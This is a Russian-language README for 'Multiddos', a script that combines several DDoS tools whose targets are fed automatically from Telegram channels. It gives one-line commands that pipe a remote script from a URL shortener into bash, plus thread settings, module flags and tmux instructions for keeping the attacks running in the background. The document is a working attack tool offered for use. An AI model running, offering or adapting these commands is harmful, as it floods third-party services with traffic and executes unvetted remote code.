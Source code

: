 ## Multiddos - скрипт объединяющий в себе несколько утилит для ddos
Идея скрипта заключается в том, чтобы автоматизировать сразу несколько утилит, объединить несколько групп в более массированные атаки, а также не давать простаивать свободным ресурсам на VPS.

![multiddos](https://user-images.githubusercontent.com/53382906/161972523-a1197762-a166-45f2-9b68-6e13cc940d99.gif)

На данный момент скрипт поддерживает:
* [Multiddos](https://github.com/KarboDuck/multiddos), ранее известный как auto_mhddos (обвертка для mhddos_proxy) от Украинского Жнеца ([канал](https://t.me/ukrainian_reaper_ddos), [чат](https://t.me/+azRzzKp-STpkMjNi))
* [db1000n ](https://github.com/Arriven/db1000n) от IT ARMY of Ukraine ([канал](https://t.me/itarmyofukraine2022), чат)
* [UA Cyber SHIELD](https://github.com/opengs/uashield) ([канал](https://t.me/uashield), чат) 

Все утилиты автоматизированы, то есть автоматически обновляются при запуске и автоматически подтягивают новые цели из своих каналов.

## Команда для запуска в Linux

Рекомендуется использовать этот метод
```
curl -L tiny.one/multiddos | bash && tmux a
```

Скрипт запускает tmux сессию. Если закрыть терминал или оборвать ssh сессию, то программы не закроются, а будут дальше работать в фоне. После повторного подключения к сессии Tmux все программы снова появятся на экране.

Внутри окна Multiddos запускается утилита для мониторинга gotop (можно смотреть за исходящим трафиком, нагрузкой на процессор, и использованием RAM) и утилиты, перечисленные выше.

Если у вас слабый процессор, то можно уменьшить количество потоков (threads) c 1000 (по умолчанию) до 500:

```
curl -L tiny.one/multiddos -o mul.ti && bash mul.ti -t 500 && tmux a
```
Увеличивать количество потоков не рекомендуется, если вы точно не уверены в том, что делаете. Так как это может привести к противоположному результату - снижению скорости атаки.

## Управление Tmux

* **Свернуть Tmux**. Программы продолжат работать в фоне, и к сессии можно будет позже снова подключиться. `Нажмите Ctrl+b` отпустите `Нажмите d`
* **Закрыть сессию Tmux**. Сначала выйдите из Tmux: `Нажмите Ctrl+b` отпустите `Нажмите d`. Выполните в терминале команду `tmux kill-session -t multiddos`
* **Переподключиться к сессии Tmux**. Если у вас всего одна сессия Tmux, то используйте: `tmux a` (tmux attach). Если у вас несколько сессий, подключайтесь по имени: `tmux attach-session -t multiddos`

## Закрыть все программы
Поскольку программы продолжат работать в фоне после закрытия терминала, закрывать их нужно другими способами.

1. В другом терминале выполнить команду:
```
pkill tmux; pkill node; pkill shield; pkill -f start.py; pkill -f runner.py
```

2. Или при желании просто перезагрузить компьютер/виртуалку.

## Запуск в фоне
<details>
  <summary>развернуть</summary>
  
То же самое что и обычный запуск, но без автоматического подключения к сессии Tmux. То есть программы будут запущены как обычно, но не будут выведены на экран. Соответственно просто удаляем вызов Tmux в конце команды.

```
curl -L tiny.one/multiddos | bash
```
Чтобы подключиться к сессии tmux (вывести программы на экран) прочитайте ниже пункт **Переподключиться к сессии Tmux**.
 
</details>

## Выбор конфигурации

<details>
  <summary>развернуть</summary>
  

Multiddos запускается по умолчанию с gotop, multiddos и db1000n. Это стандартная конфигурация. Из этой конфигурации можно убрать gotop или db1000n. Или добавить в нее утилиты: uashield, vnstat, matrix.

Для того, чтобы убрать утилиту используется ключ со знаком "-":

`-g` убрать gotop

`-d` убрать db1000n

Для того, чтобы добавить утилиту используется ключ со знаком "+":

`+u` добавить uashield

`+v` добавить vnstat -l (мониторинг трафика)

`+m` добавить matrix (эффект матрицы)

Пример команды:

```
curl -L tiny.one/multiddos -o mul.ti && bash mul.ti -d +m && tmux a
```
убрать db1000n и добавить matrix

</details>

## Решение проблем
<details>
  <summary>развернуть</summary>
 
Скрипт может не дружить с запуском на виртуалке, или даже на обычном ПК, подключенном к Интернету через Wi-Fi. Возможны глюки сетевого адаптера. Вероятно большое кол-во сетевых пакетов перегружает некоторое сетевое оборудование. Ошибки вылазят самые разнообразные. Пробуйте перезагрузить систему и запустить снова.

На vps и ПК подключенных через Ethernet такие проблемы как правило не наблюдаются.
 
</details>